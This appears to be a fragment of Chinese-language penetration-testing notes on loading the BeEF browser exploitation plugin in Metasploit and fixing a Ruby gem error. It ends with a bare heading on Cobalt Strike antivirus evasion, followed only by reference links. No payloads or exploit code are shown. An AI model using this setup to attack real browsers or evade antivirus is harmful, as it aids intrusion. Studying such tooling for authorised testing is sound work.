
启动 msf 加载 beef
msf6 > load beef
若遇到此问题

这样解决。
cp -R /var/lib/gems/2.7.0/gems/hpricot-0.8.6/lib/* /usr/lib/ruby/vendor_ruby

这里注意若出现以下报错：

则要结合自己实际情况，例：查看 gems 目录下的文件名、hpricot-x.x.x。
现在再启动 msf，就可以加载 beef 了

# CS 免杀 - MAC 写入内存
# Reference
https://blog.csdn.net/qq_34801745/article/details/111274699
https://blog.csdn.net/weixin_39677027/article/details/110722382
https://www.yuque.com/zirc0n/escbhg/qxgfnu
https://wiki.wgpsec.org/knowledge/intranet/Cobalt-Strike.html
https://www.77169.net/html/253221.html